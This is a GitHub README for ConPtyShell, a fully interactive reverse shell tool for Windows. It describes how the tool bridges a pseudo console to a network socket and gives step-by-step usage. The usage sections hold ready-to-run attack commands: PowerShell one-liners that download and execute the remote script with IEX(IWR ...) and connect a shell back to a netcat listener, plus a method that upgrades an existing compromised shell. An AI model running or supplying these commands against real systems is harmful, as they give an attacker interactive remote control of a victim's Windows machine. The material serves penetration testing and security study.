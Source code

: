 # ConPtyShell
ConPtyShell is a Fully Interactive Reverse Shell for Windows systems.

The introduction of the Pseudo Console (ConPty) in Windows has improved so much the way Windows handles terminals.
ConPtyShell uses this feature to literally transform your bash in a remote powershell.

<p>Briefly, it creates a Pseudo Console and attaches 2 pipes.<br>
Then it creates the shell process (default powershell.exe) attaching the Pseudo Console with redirected input/output.<br>
Then starts 2 Threads for Async I/O:<br>
- one thread for reading from the socket and writing to Pseudo Console input pipe;<br>
- the second thread for reading from the Pseudo Console output pipe and writing to the socket.</p>

ConPtyShell has also the magic button "Upgrade to fully interactive" for your reverse shell, just use it as your needs :)

If you want to know further information regarding ConPty you can find a great article [1] in the references section.

**NOTE: ConPtyShell uses the function <a href="https://docs.microsoft.com/en-us/windows/console/createpseudoconsole">CreatePseudoConsole()</a>. This function is available since Windows 10 / Windows Server 2019 version 1809 (build 10.0.17763).**

**NOTE2: If the ConPTY is not available on the target system you will get a normal netcat-like interactive shell.**

## Requirements
<p>Client Side: Windows version >= 10 / 2019 1809 (build >= 10.0.17763)</p>
<p>Server Side: any tcp listener, i.e. netcat</p>

## Usage

It's important to have the same rows and cols size between your terminal and the remote terminal if you want to have an aligned output on the shell.

#### Method 1
In this method the terminal size is set without you pass the rows and cols parameters to Invoke-ConPtyShell function:

##### Server Side:
```
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

##### Client Side:

```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```

or, if you upload the ps1:

```
IEX(Get-Content .\Invoke-ConPtyShell.ps1 -Raw); Invoke-ConPtyShell 10.0.0.2 3001
```

#### Method 2
If you prefer to have more freedom on the tcp listener and your terminal you can proceed with a "Manual" way to get the reverse shell. In this case it's important that you set rows and cols size when calling the Invoke-ConPtyShell function:

##### Server Side:
```
stty size
nc -lvnp 3001
Wait For connection
ctrl+z
stty raw -echo; fg[ENTER]
```
##### Client Side:
Here you should use the values read from ```stty size``` command in the Parameters -Rows and -Cols
```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell -RemoteIp 10.0.0.2 -RemotePort 3001 -Rows 24 -Cols 80
```

or, if you upload the ps1:

```
IEX(Get-Content .\Invoke-ConPtyShell.ps1 -Raw); Invoke-ConPtyShell -RemoteIp 10.0.0.2 -RemotePort 3001 -Rows 24 -Cols 80
```

#### Method 3 - Upgrade
You can also upgrade your current shell to a fully interecative shell. In this case it's important that you set rows and cols size when calling the Invoke-ConPtyShell function:

**WARN1: Do not use Invoke-WebRequest if you load the assembly directly in powershell because ConPtyShell won't work properly when multiple sockets (and multiple \Device\Afd) are found in the current process**

**WARN2: Only sockets created with the flag WSA_FLAG_OVERLAPPED are compatible with the upgrade. Non overlapped sockets won't give a nice upgraded shell and it will have locks on I/O operations.**

##### Server Side:
```
stty size
nc -lvnp 3001
Wait For connection
ctrl+z
stty raw -echo; fg[ENTER]
```
##### Client Side:
Here you should use the values read from ```stty size``` command in the Parameters -Rows and -Cols

```
IEX(Get-Content .\Invoke-ConPtyShell.ps1 -Raw); Invoke-ConPtyShell -Upgrade -Rows 24 -Cols 80
```


## Change Console Size

In any case if you resize your terminal while you have already open the remote shell you can change the rows and cols size directly from powershell pasting the following code:

```
$width=80
$height=24
$Host.UI.RawUI.BufferSize = New-Object Management.Automation.Host.Size ($width, $height)
$Host.UI.RawUI.WindowSize = New-Object -TypeName System.Management.Automation.Host.Size -ArgumentList ($width, $height)
```

## Demo
Below you can watch 2 demos. The first gif using the **Method 1** with the compiled assemlby in exe format, the second gif is showing the **Method 3** by upgrading your current shell with the ps1 script:

#### Method 1

<img src="demo_1.gif">

#### Method 2 - Upgrade demo

<img src="https://drive.google.com/uc?id=1PRuy_qgezsG0rQ7kjSYl6hxlJMLobTh8">

## References

1. https://devblogs.microsoft.com/commandline/windows-command-line-introducing-the-windows-pseudo-console-conpty/
2. https://github.com/microsoft/terminal
3. https://www.usenix.org/conference/usenixsecurity20/presentation/niakanlahiji
4. https://adepts.of0x.cc/shadowmove-hijack-socket/

## Credits

- LupMan
